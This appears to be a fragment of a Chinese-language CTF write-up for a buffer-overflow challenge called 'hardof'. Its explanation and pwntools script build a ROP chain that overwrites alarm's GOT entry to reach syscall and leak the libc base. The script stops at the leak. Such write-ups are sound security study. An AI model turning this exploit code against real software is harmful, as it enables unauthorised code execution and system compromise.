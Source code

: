 ```python
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(sh_addr) + p64(system_addr)
    sn(buff)
```
## exp
此题核心点在于修改alarm最后一字节为syscall去实现利用，除了用syscall write泄露libc外还可以用ret2csu的原理去syscall execve去获取shell，以下给出exp
```python
# ret2libc
from pwn import *

remote_addr=['127.0.0.1',49156] # 23333 for ubuntu16, 23334 for 18, 23335 for 19
context.terminal = ["tmux", "sp","-h"]
context.log_level=True

#p=remote(remote_addr[0],remote_addr[1])
elf_path = "./hardof"
p = process(elf_path)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(elf_path)

#gdb.attach(p, 'c')

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    pop_rdi = 0x00000000004005e3
    ret = 0x0000000000400416
    pop_rsi_r15 = 0x04005e1
    main_addr = 0x400553
    alarm_got = elf.got["alarm"]
    alarm_plt = elf.plt["alarm"]
    read_plt = elf.plt["read"]
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(read_plt) + p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(alarm_plt) + p64(main_addr)
    
    sn(buff)
    sleep(1)
    sn('\x19')
    gdb.attach(p)
    sleep(1)
    #libc.address = u64(rv(8)) - 5 - libc.symbols['alarm'] # 18.04
    libc.address = u64(rv(8)) - 9 - libc.symbols['alarm'] # 20.04
```